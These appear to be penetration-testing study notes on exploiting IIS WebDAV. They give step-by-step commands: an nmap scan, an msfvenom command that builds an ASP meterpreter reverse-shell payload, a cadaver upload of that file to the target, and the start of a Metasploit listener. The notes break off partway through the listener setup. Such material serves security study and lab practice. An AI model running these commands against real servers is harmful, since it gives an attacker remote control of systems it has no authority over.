 
Exploiting WebDAV With Metasploit 

- Start with nmap scan on target to confirm that IIS is running and WebDav is configured 
	- *nmap -sV -p 80 --script=http-enum target* 
- Now lets try to start with a meterpreter session (reverse shell) 
	- MSFvenom is a tool that allows you to generate a payload that provide you with remote/remote access with system (Msfvenom can generate payloads in different formats, such as executable files, shellcode, dynamic-link libraries (DLLs), JavaScript, Python scripts, and more.) 
- *msfvenom -p windows/meterpreter/reverse_tcp LHOST=(your own ip) LPORT=port that is open on your system -f asp > meterpreter.asp* 
	- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f asp > meterpreter.asp 
		- - `msfvenom`: This is the command to execute the msfvenom tool.
		- `-p windows/meterpreter/reverse_tcp`: This parameter specifies the payload to be generated. In this case, it is using the "meterpreter" payload, which is a versatile payload that provides advanced functionality and allows interactive control of the compromised system. It is designed for Windows targets and uses a reverse TCP connection.
		- `LHOST=10.10.5.2`: This parameter specifies the **local IP address (host)** for the reverse connection. You should replace it with the IP address of the system where the listener (the system that will receive the connection) is running. In this case, it is set to `10.10.5.2`.
		- `LPORT=1234`: This parameter specifies the **local port number** for the reverse connection. You should replace it with the port number where the listener is configured to listen for incoming connections. In this case, it is set to `1234`.
		- `-f asp`: This parameter specifies the output format for the generated payload. In this case, it is set to ASP (Active Server Pages). The generated payload will be in the form of an ASP script.
		- `> meterpreter.asp`: This part redirects the output of the msfvenom command to a file named "meterpreter.asp". The generated ASP payload will be saved in this file.

		1. Payload: `windows/meterpreter/reverse_tcp` The `windows/meterpreter/reverse_tcp` payload is a specific type of payload available in the Metasploit Framework. It creates a reverse TCP connection from the target machine to the attacker's machine. Once the connection is established, it allows the attacker to execute commands and interact with the compromised system.
		    
		    In a reverse TCP scenario, the exploited system initiates the connection to the attacker's machine, which is typically listening on a specific IP address (`LHOST`) and port (`LPORT`). This type of connection is useful when the exploited system is behind firewalls or other network restrictions that might prevent direct incoming connections.
		    
		2. Output File: `meterpreter.asp` The `meterpreter.asp` file is the output file generated by the `msfvenom` tool, which is a payload generator within the Metasploit Framework. The `-f asp` flag specifies that the output file should be in ASP format, which is a file extension commonly associated with Active Server Pages.
		    
		    The generated `meterpreter.asp` file contains the payload code in ASP format. When this file is executed on a vulnerable web server, it establishes a reverse TCP connection back to the attacker's machine, allowing them to gain control over the compromised system.
		    
		    In summary, the `windows/meterpreter/reverse_tcp` payload establishes a reverse TCP connection from the target machine to the attacker's machine, while the `meterpreter.asp` file is the output file that contains the payload code in ASP format.
		    
Now... moving to cadaver 
- use cadaver to get sudo shell: cadaver http://target-ip/webdav
	- 'ls' to list the files 
	- use **put** to upload the file that you created: put /root/meterpreter.asp 
- before executing the malicious file we need to set up a listener/handler that will receive the reverse connection from target system and then send the stage which will give you a meterpreter session when executed 
	- start up metasploit framework console session: **service postgresql start && msfconsole**
		-  "service postgresql start": This command starts the PostgreSQL service. PostgreSQL is an open-source relational database management system. The "service" command is used to manage system services in many Linux distributions. In this case, it's starting the PostgreSQL service.
			- PostgreSQL is one of the supported databases for Metasploit, and it can be used as a data store for various features and functionalities within the framework. By default, Metasploit uses an SQLite database, but using PostgreSQL can offer better performance and scalability, especially when dealing with larger datasets or multiple concurrent users.